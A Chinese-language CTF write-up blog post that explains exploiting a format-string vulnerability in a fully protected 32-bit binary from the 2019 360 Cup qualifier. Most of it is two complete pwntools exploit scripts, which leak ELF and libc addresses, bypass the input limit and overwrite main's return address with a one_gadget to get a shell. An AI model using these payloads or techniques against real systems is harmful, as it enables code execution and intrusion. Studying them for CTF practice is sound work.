 ```yaml
---

layout: post

title: '再探格式化漏洞'

date: '2019-10-23'

header-img: "img/home-bg.jpg"

tags:
     - pwn 格式化漏洞  
author: 'De4dCr0w'

---
```


<!-- more -->

### 前言

之前已经对格式化漏洞的原理进行了记录：

https://de4dcr0w.github.io/ISCC2017%E4%B9%8Bpwn1%E5%88%9D%E6%8E%A2%E6%A0%BC%E5%BC%8F%E5%8C%96%E6%BC%8F%E6%B4%9E.html

针对2019 360杯初赛的fmt题进行一次复习。

### 题目解析

题目流程较为简单，输入一个字符串，并直接用printf打印，存在格式化漏洞，并且限制输入三次。

![](../image/2019-10-23-再探格式化漏洞/1.png)

开启了全保护：

![](../image/2019-10-23-再探格式化漏洞/2.jpg)

32位程序中，printf输入的参数为fmt字符串+arg1+arg2+……，从右往左依次压入栈中。所以格式化漏洞第一步操作的都是栈中的数据，首先要找到打算泄漏或写入的地址距离fmt字符串的偏移是多少，可以通过pwngdb插件fmtarg来计算。

fmtarg 得到的是目的地址在整个字符串的索引，所以要减去1（去除fmt），例如：%order$s 对应的order为fmt字符串后面的参数的顺序。

64位程序中order要加上6，因为前6个参数是通过寄存器传递的。

调试时在printf函数下断点，查看栈的布局：

![](../image/2019-10-23-再探格式化漏洞/3.jpg)

![](../image/2019-10-23-再探格式化漏洞/4.jpg)

通常格式化漏洞利用会传入地址进行任意写，但如果字符串不保存在栈中，而是bss区或堆中时，例如本题，就需要在栈中找到像path2->path1->path0这样的利用链，path2和path1为栈中的地址，可以对path2的索引进行写入修改path0，然后对path1的索引进行写入修改path0的内容，达到任意地址写入的效果。（通常找到ebp，因为ebp保存的就是上一个栈帧的ebp地址）

一般格式化漏洞会修改got表来执行命令，但本题开启了保护，所以只能通过修改main函数的返回地址为one_gadget来get shell。

### Exp

```
from pwn import *
from LibcSearcher import LibcSearcher
import time

context.log_level = 'debug'

p = process("./pwn2")

one_gadget = 0x3ac5e

def send_data(payload):
    p.recvuntil("2. Exit")
    p.sendline("1")
    p.recvuntil("It's time to input something")
    p.sendline(payload)

def Exit():

    p.recvuntil("2. Exit")
    p.sendline("2")

if __name__=='__main__':
    
    payload =  "AA%1$x%15$x%6$x"
    send_data(payload)
    p.recvuntil("AA")
    elf_base = long(p.recv(8),16)-0x2010
    print "elf_base:",hex(elf_base) //泄漏程序基地址

    libc_main = long(p.recv(8),16)-247

    path1 = long(p.recv(8),16)
    ret_addr = path1 - 0x98 //泄露返回地址
    print 'ret_addr:',hex(ret_addr)

    libc = LibcSearcher("__libc_start_main",int(libc_main))
    main_offset = libc.dump('__libc_start_main')
    //因为题目中没有给出libc版本，所以需要泄露函数地址通过LibcSearcher查找版本

    libc_base = libc_main-main_offset
    print "libc_base:",hex(libc_base) // 泄漏libc基地址

    one_gadget = libc_base + one_gadget

    i_stack_addr = path1 - 0xc0 + 3 
    print "i_stack_addr:",hex(i_stack_addr)
    
    #gdb.attach(p)
    //修改循环的值，在高地址写入0xff,使其变成负数，绕过只能printf三次的限制
    payload = "%" + str(i_stack_addr&0xffff) + "c%6$hn"
    send_data(payload)

    payload = "%" + str(0xff) + "c%57$hhn"
    send_data(payload)

    //修改path0 为main函数返回地址，写入两个字节修改地址部分
    payload = "%" + str(ret_addr&0xffff) + "c%6$hn"
    send_data(payload) 

    payload = "%" + str(one_gadget&0xffff) + "c%57$hn"
    send_data(payload)

    //修改path0 为main函数返回地址+2的地址，写入两个字节修改高地址部分
    payload = "%" + str((ret_addr+2)&0xffff) + "c%6$hn"
    send_data(payload) 

    payload = "%" + str((one_gadget&0xffff0000)>>16) + "c%57$hn"
    send_data(payload)

    Exit() //退出循环 main函数返回，触发one_gadget
    p.interactive()

```

### Exp2

该exp比较dirty，通过改写bss上N的值来绕过次数限制，并泄露got表中printf函数的地址来泄露libc地址，属于舍近求远的行为，而且构造bss的地址时发送数据过大，容易失败。也贴在下面：

```
from pwn import *
from LibcSearcher import LibcSearcher
import time

#context.log_level = 'debug'

p = process("./pwn2")

one_gadget = 0x3ac5e

def send_data(payload):
    p.recvuntil("2. Exit")
    p.sendline("1")
    p.recvuntil("It's time to input something")
    p.sendline(payload)

def Exit():
    p.recvuntil("2. Exit")
    p.sendline("2")

payload1 = "A"*0x3 + "%6$x"+"%6$s" + "%1$x"
send_data(payload1)
p.recvuntil("AAA")
path1 = long(p.recv(8),16)
print "path1_addr:",hex(path1)

path0 = u32(p.recv(4))
print "path0_addr:",hex(path0)

elf_base = long(p.recv(8),16)-0x2010
print "elf_base:",hex(elf_base)

N_addr = elf_base + 0x2008
print "N_addr:",hex(N_addr) //泄漏bss 上N的地址
#------------------------------------

payload2 = "%" + str(N_addr)+"c%6$n"
send_data(payload2) // 修改path0为N的地址

payload3 = "%" + str(0xbe)+"c%57$hhn"  // 修改N的值为0xbe
p.sendline("1")
p.recvuntil("It's time to input something")
p.sendline(payload3)

#----------------------------------------

printf_got = elf_base + 0x1fd0
print "printf_got:",hex(printf_got)

payload4 = "%" + str(printf_got)+"c%6$n" //修改path0位printf got表地址
send_data(payload4)

payload5 = "A"*0x3 + "%57$s" 

p.sendline("1")
p.recvuntil("It's time to input something")
p.sendline(payload5)
p.recvuntil("AAA")
printf_addr = u32(p.recv(4)) //泄漏printf 地址
print "printf_addr:",hex(printf_addr) 

libc = LibcSearcher("printf",printf_addr) //查找libc版本

printf_offset = libc.dump('printf')

libc = printf_addr-printf_offset  //泄漏libc基址

ret_addr = path1 - 0x98
print 'ret_addr:',hex(ret_addr)
one_gadget = libc + one_gadget

payload6 = "%" + str(ret_addr&0xffff)+"c%22$hn" //该部分就和上面的exp一样了
send_data(payload6)

payload = "%" + str(one_gadget&0xffff)+"c%59$hn" 
send_data(payload)

payload6 = "%" + str((ret_addr+2)&0xffff)+"c%22$hn"
send_data(payload6)

payload = "%" + str((one_gadget&0xffff0000)>>16)+"c%59$hn" 
send_data(payload)

Exit()

p.interactive()

```

### 参考链接

https://wiki.x10sec.org/pwn/fmtstr/fmtstr_example/

https://github.com/lieanu/LibcSearcher

